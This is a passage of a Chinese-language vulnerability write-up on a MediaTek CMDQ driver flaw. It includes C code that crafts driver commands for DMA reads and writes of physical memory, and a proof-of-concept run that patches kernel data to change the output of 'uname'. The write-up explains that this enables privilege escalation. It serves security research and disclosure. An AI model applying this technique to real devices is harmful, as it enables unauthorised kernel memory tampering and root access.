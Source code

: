 ```
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_MOVE &lt;&lt; 24 | 1 &lt;&lt; 23
                                                | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16
                                                | (pa_address + offset) &gt;&gt; 0x20;
command-&gt;blockSize += 8;

//write CMDQ_DATA_REG_DEBUG into CMDQ_DATA_REG_DEBUG_DST
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize) = CMDQ_DATA_REG_DEBUG;
*(uint32_t*)(command-&gt;pVABase + command-&gt;blockSize + 4) = CMDQ_CODE_WRITE &lt;&lt; 24 | 3 &lt;&lt; 22
                                                  | CMDQ_DATA_REG_DEBUG_DST &lt;&lt; 16;
```

然后，我们通过填充readAddress字段，来通知驱动程序我们需要读取DMA缓冲区中的值：

```
*(uint32_t*)((uint32_t)command-&gt;readAddress.dmaAddresses) = dma_address;
command-&gt;readAddress.count = offset;
```

该结果将写入到readAddress.values中，该地址必须事先分配。

### <a class="reference-link" name="%E7%AE%80%E5%8D%95%E7%9A%84PoC"></a>简单的PoC

要确定内核使用的物理地址，可以使用设备的/proc/iomem（需要root权限）。

```
# cat /proc/iomem
[...]
40000000-545fffff : System RAM
  40008000-415fffff : Kernel code
  41800000-41d669b3 : Kernel data
[...]
```

这些地址是静态配置的，在每次引导启动时都会保持不变。<br>
PoC由两个程序组成：<br>
1、一个允许对基础内存进行读写的C程序；<br>
2、一个Shell脚本，该脚本调用上一个程序，在内核数据存储器中搜索“Linux”字符串的第一个匹配项，然后将其替换为“minix”。

```
$ uname -a
Linux localhost 4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
$ sh poc.sh
[+] Found Linux string at 0x4180bc00
[+] Found Linux string at 0x4180bea0
[+] Write the patched value
$ uname -a
minix  4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
```

这样的PoC非常有用，我们现在已经能够读写内核数据存储器。并且，我们已经可以对任何其他系统内存区域执行相同的操作，从而绕过系统中已有的权限和保护。因此，除了进行简单的尝试之外，我们还可以利用这个漏洞来修改系统内存中的任何地方，例如内核代码和数据，以实现特权提升。<br>
二进制mtk-su使用该漏洞，在内核内存中执行了很多有趣的工作，从而实现了以root身份执行命令。在本文中，我们将不会提供有关如何使用mtk-su这些内核漏洞利用方式的更多详细信息。但是，作为安全研究人员，可以首先尝试分析我们编写的小型追踪库。启动mtk-su时必须预先加载它，并且它将跟踪CMDQ驱动程序的某些IOCTL，例如发送给驱动程序的命令。
